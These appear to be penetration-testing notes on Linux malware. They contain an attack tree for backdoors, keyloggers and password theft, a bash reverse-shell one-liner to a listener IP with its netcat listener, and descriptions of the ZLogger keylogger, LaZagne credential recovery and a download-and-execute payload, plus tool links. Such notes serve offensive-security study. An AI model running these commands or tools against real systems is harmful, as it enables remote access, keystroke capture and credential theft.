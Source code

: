 # Linux malware

## Attack tree

```text
1 Backdoor
    1.1 Generate
        1.1.1 Metasploit meterpreter (OR)
        1.1.2 With TheFatRat (Trodebi) (OR)
        1.1.2 Powershell stager (usestager multi/bash) 
    1.2 Download to target machine
    1.3 Test it works
2 Keylogger
    2.1 Install and use Zlogger command
    2.2 Download to target machine
    2.3 Test it works (make executable, run in terminal, do some keystrokes, check mail)
3 Password recovery tool
    3.1 Download repo and compile latest release OR use the standalone release for Linux (version 1.0)
    3.2 Download to target machine
    3.3 Test it works (make executable, run in terminal)
```

## Notes

### Bash backdoor

Bash is a command language used in Unix & Unix-like operating systems:
* Linux
* Mac OS X
* IOS
* Android

Bash can be used to send a reverse shell to a remote computer. Simplest form:

On the target machine:
```text
$ bash -i >& /dev/tcp/192.168.122.108/8080 0>&1
```

On the kali machine:
```text
# nc -vv -l -p 8080
```

### ZLogger

Zlogger is a remote keylogger for Linux:
* Runs in the background of target system.
* Reports every key pressed on the target machine to email.
* Starts with system boot.
* Does not require root.

Remove it:

```text
$ cd .config/autostart
$ rm xinput.desktop
```
After restarting it is not running.

## LazaGne

LazaGNe is a post exploitation tool to retrieve saved passwords on local computer:
* Recovers saved passwords from lots of programs.
* Recovers passwords from memory.
* Works with Windows and Linux.
* Displays result on screen or store it on local machine.

## Execute & Report

Execute and Report is a simple payload:
* Executes a command.
* Waits for result and sends it by email.
* Execute linux commands and get info from computer.
* Download a file, execute it and report its output.
* ...

## Tools

* [Zlogger](https://github.com/z00z/ZLogger)
* [LazaGNe](https://github.com/AlessandroZ/LaZagne)
* [ZReporter](https://github.com/z00z/ZReporter)

## Cheatsheets

* [Empire wiki](https://bc-security.gitbook.io/empire-wiki/)

## Scripts

* [Nirridit (Evil files)](https://github.com/tymyrddin/nirridit)